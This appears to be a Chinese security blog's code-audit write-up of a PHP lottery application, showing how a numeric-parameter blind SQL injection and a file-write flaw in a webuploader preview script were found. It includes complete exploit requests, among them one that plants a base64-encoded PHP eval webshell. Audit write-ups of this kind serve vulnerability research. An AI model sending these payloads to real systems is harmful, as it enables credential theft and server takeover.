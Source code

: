 ```yaml
---
title: "记一套彩票程序代码审计"
date: 2020-12-31 23:42:06
draft: flase
tags: ['彩票程序']
categories: ['代码审计']
---
```




> 团队成员发的一套源码





## 前期审计


在审计一套代码的时候，我们首先要了解程序的路由、全局文件是否有过滤等问题。
我们首先查看入口文件，也就是index.php


![image.png](https://sqlmap.wiki/iamges/cp1.png)


加载了conn.php,base.php等外部文件。判断是电脑还是手机访问。还判断了用户如果m传参是admin的话，显示权限不足，也就是不准你用这种路由访问后台。按照经验来看，这套程序是有个专门的后台登录文件。


conn.php
![image.png](https://sqlmap.wiki/iamges/cp2.png)


base.php
![image.png](https://sqlmap.wiki/iamges/cp3.png)




base.php从第76-93行是重点。
![image.png](https://sqlmap.wiki/iamges/cp4.png)




可以看到，对请求方式都添加了过滤，addslasheshe的功能就是给单引号添加反斜杠。

这个函数有个特性就是不会拦截数值型的变量。所以我们找注入就去找没有单双引号包裹的就行








## 发现漏洞
## 
### SQL盲注


全局搜索where关键字，发现一个数值型变量。定位到lib/controller/api/app.php文件。


![image.png](https://sqlmap.wiki/iamges/cp5.png)




可以看到，非常典型的一个注入。构造payload
```plsql
POST /index.php?m=api&c=app&a=getTips HTTP/1.1
Host: xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: xxx.com
Connection: close
Referer: xxx.com
Cookie: PHPSESSID=mq7b12iqj8ci3d9njejsncmo0i
Upgrade-Insecure-Requests: 1

payment_id=1 or if((select ascii(substr(username,1,1)) from un_admin where userid=1)=97,1,0)#
```




### RCE 


对于RCE，我比较喜欢全局搜索file_put_contents，定位到statics/admin/webuploader/0.1.5/server/preview.php






```php
<?php
/**
 * 此页面用来协助 IE6/7 预览图片，因为 IE 6/7 不支持 base64
 */

$DIR = 'preview';
// Create target dir
if (!file_exists($DIR)) {
    @mkdir($DIR);
}

$cleanupTargetDir = true; // Remove old files
$maxFileAge = 5 * 3600; // Temp file age in seconds

if ($cleanupTargetDir) {
    if (!is_dir($DIR) || !$dir = opendir($DIR)) {
        die('{"jsonrpc" : "2.0", "error" : {"code": 100, "message": "Failed to open temp directory."}, "id" : "id"}');
    }

    while (($file = readdir($dir)) !== false) {
        $tmpfilePath = $DIR . DIRECTORY_SEPARATOR . $file;

        // Remove temp file if it is older than the max age and is not the current file
        if (@filemtime($tmpfilePath) < time() - $maxFileAge) {
            @unlink($tmpfilePath);
        }
    }
    closedir($dir);
}

$src = file_get_contents('php://input');

if (preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)) {

    $previewUrl = sprintf(
        "%s://%s%s",
        isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] != 'off' ? 'https' : 'http',
        $_SERVER['HTTP_HOST'],
        $_SERVER['REQUEST_URI']
    );
    $previewUrl = str_replace("preview.php", "", $previewUrl);


    $base64 = $matches[2];
    $type = $matches[1];
    if ($type === 'jpeg') {
        $type = 'jpg';
    }

    $filename = md5($base64).".$type";
    $filePath = $DIR.DIRECTORY_SEPARATOR.$filename;

    if (file_exists($filePath)) {
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    } else {
        $data = base64_decode($base64);
        file_put_contents($filePath, $data);
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    }

} else {
    die('{"jsonrpc" : "2.0", "error" : {"code": 100, "message": "un recoginized source"}}');
}
```


关键代码33行，从php流直接获取内容。然后就是正则匹配，匹配/image/xxx，xxx赋值为后缀，base64,xxx为文件内容。然后进行了个判断，如果为jpeg，则把后缀定义为jpg，但是它这里判断完之后，并没有啥用，我们依然可以伪造为php后缀。其实这个代码跟我以前那篇交易所文章的代码几乎一模一样，有不懂的可以去看下。


#### payload


```plsql
POST /statics/admin/webuploader/0.1.5/server/preview.php HTTP/1.1
Host: xxx.com
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="87", " Not;A Brand";v="99", "Chromium";v="87"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=qg48o5j2dqcvivktta811srn30
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

data:image/php;base64,PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7
```
